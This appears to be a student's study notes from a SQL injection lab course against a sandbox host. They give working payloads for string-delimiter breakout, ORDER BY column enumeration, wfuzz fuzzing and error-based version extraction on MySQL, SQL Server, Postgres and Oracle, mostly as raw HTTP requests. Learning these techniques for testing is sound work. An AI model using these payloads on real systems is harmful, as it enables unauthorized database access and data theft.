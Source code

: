 
###### SQL Injection


```
10 or id=11 -> MySQL, Oracle, SQL Server, PostgreSQL

```
String Delimiters

Injecting single quote

```
SELECT * FROM menu WHERE name = 'Tostadas''

```
Sol:

```
admin' or '1'='1

```

Closing Out Strings and Functions
Example payload:

```
foo') or id=11-- 
```

Payload becomes:

```
SELECT * FROM menu WHERE LOWER(name) = LOWER('foo') or id=11-- ') 

SELECT * FROM menu WHERE LOWER(name) LIKE LOWER('%foo') or id=11-- %')
```
Sol:
```
foo') or 1=1 --   Oracle
foo') or 1=1# MySQL
foo') or 1=1--  SQL Server
foo') or 1=1--  Postgres SQL
```

###### Sorting

Can be used to find no of columns.

```
SELECT name, price FROM menu ORDER BY name

SELECT name, price FROM menu ORDER BY 2

```
Sol:

```
POST /discovery/api/sorting HTTP/1.1
Host: sql-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://sql-sandbox/discovery/sorting
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://sql-sandbox
Content-Length: 27
Connection: close

db=mysql&sort=id'&order=asc

```
MSSQL:

```
POST /discovery/api/sorting HTTP/1.1
Host: sql-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://sql-sandbox/discovery/sorting
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://sql-sandbox
Content-Length: 27
Connection: close

db=mssql&sort=id;&order=asc
```

Used ; for mssql and postgres. ' for MySQL and Oracle.



###### Boundary Testing

```
SELECT * FROM menu ORDER BY 4 desc;

SELECT * FROM menu ORDER BY 5 desc; -> grnerates error as there is only 4 cols.

```


Sol:

```
POST /discovery/api/boundaries HTTP/1.1
Host: sql-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://sql-sandbox/discovery/boundaries
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://sql-sandbox
Content-Length: 23
Connection: close

db=mysql&sort=5&order=2

```

###### Fuzzing

```
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "db=mysql&id=FUZZ" -u http://sql-sandbox/api/intro

```
Sol:

postgres and mssql

```
POST /discovery/api/fuzzing HTTP/1.1
Host: sql-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://sql-sandbox/discovery/fuzzing
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://sql-sandbox
Content-Length: 38
Connection: close

db=postgres&name=OR&sort=id&order=asc)

```

MySQL and oracle
```
POST /discovery/api/fuzzing HTTP/1.1
Host: sql-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://sql-sandbox/discovery/fuzzing
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://sql-sandbox
Content-Length: 41
Connection: close

db=oracle&name=admin&sort=id&order=asc'
```



##### Exploiting SQL Injection

###### Error-based Payloads
force erroneous data type conversions

SQL Server

```
cast(@@version as integer)

```
Postgres SQL

```
cast(version() as integer)
```
MySQL

```
extractvalue('',concat('>',version()))
```
In this payload, we call the extractvalue() function and pass in a blank string as the first parameter (the XML fragment). For the second parameter, we use the concat() function to concatenate the greater-than symbol (>) and version(). We can use many different values for the first value in the concat() function as long as the resulting value is not a valid XPath expression. We want to avoid values that start with a forward slash (/), a period (.), the at character (@), or a completely alphanumeric string since these values would start a valid XPath expression. We are using the greater-than symbol (>) because it is a delimiter in XML and cannot be part of a valid XML node.


Oracle

```
to_char(dbms_xmlgen.getxml('select "'|| (select substr(banner,0,30) from v$version where rownum=1)||'" from sys.dual'))
```

Sol:

```
POST /exploit/api/error HTTP/1.1
Host: sql-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://sql-sandbox/exploit/error
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://sql-sandbox
Content-Length: 60
Connection: close

inStock=cast(@@version as integer)&name=as&sort=id&order=asc

```


1
(Microsoft, 2021), https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-ver15 ↩︎

2
(Wikipedia, 2021), https://en.wikipedia.org/wiki/Null_(SQL) ↩︎

3
(Oracle, 2021), https://dev.mysql.com/doc/refman/8.0/en/xml-functions.html ↩︎

4
(Oracle, 2021), https://dev.mysql.com/doc/refman/8.0/en/xml-functions.html#function_extractvalue ↩︎

5
(Wikipedia, 2021), https://en.wikipedia.org/wiki/XPath ↩︎

6
(Oracle, 2016), https://docs.oracle.com/database/121/ARPLS/d_xmlgen.htm#ARPLS69856 ↩︎

7
(Swissky, et al, 2021) https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/PostgreSQL Injection.md ↩︎

8
(NetSPI, 2019), https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql ↩︎


